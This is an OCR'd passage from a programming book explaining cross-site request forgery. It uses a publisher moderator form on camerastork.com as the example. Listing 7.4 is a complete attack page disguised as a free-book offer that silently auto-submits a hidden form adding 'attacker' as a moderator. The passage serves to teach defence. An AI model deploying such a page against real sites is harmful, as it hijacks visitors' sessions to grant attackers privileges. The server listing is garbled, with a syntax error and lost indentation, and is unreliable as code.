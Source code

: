 ## **7.3.1 XSRF Attacks**

Consider the following situation. You’ve provided a web interface to your publishers
that allows them to add different people as content moderators—users who can edit
and delete reviews posted to your widget from their website. This interface is protected
behind an authentication wall. Before making any changes to the existing moderators

list, you diligently check whether the user—the one adding a new moderator—is
authenticated and has permission to invoke this particular action. For the sake of this
example, let’s say that in order to add a new moderator, users need to submit (POST)
a form that contains a username input:

```html
<form action="/admin/moderators/add/" method="POST">
  <input type="text" name="username" />
  <input type="submit" value="Add" />
</form>
```

The code on the server that processes this form request looks like this:

```javascript
@app.route('/admin/moderators/add')
def add_moderator)():
if (request.user.is_authenticated() and \
request.user.has_permission('add-moderator') and \
is_user_valid(request.POST.username):
add_moderator(request.POST.username)
```

By all accounts, this server endpoint appears to be safe. After all, it validates the user’s session, their permission level, and also the username POST parameter. Alas, despite all our efforts, this particular endpoint is susceptible to an XSRF attack.

To understand why, consider the following HTML form. This is a malicious form written and hosted by an attacker that initiates a POST request to the moderators/add endpoint under the identity of whoever visits it.

**Listing 7.4 XSRF exploit that submits the attacker’s identifier as a moderator value**

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Free copies of Third-Party JavaScript!</title>
  </head>
  <body>
    <p>Sorry, we ran out of free copies. Try again later.</p>
    <script>
      var form = document.createElement("form");
      var input = document.createElement("input");
      form.style.display = "none";
      form.setAttribute("method", "POST");
      form.setAttribute(
        "action",
        "http://camerastork.com/admin/moderators/add/"
      );
      input.name = "username";
      input.value = "attacker";
      form.appendChild(input);
      document.getElementsByTagName("body")[0].appendChild(form);
      form.submit();
    </script>
  </body>
</html>
```

Despite looking like an innocent web page, the script on this page automatically generates and submits a form pointed to the moderators/add endpoint. In other words, whoever visits this page ends up submitting a POST request to moderators/add—with the attacker’s username as a parameter. To the browser, this is treated as a genuine request to the camerastork.com server, so it transmits any stored camerastork.com cookies with the request, including the user’s session cookie. The server receives the request—cookies included—checks the session, and validates the provided username.

Everything looks fine, so the server adds the attacker as a moderator to your account. The attack has been successful and you haven’t noticed a thing (and you didn’t get a free book for your trouble, either).
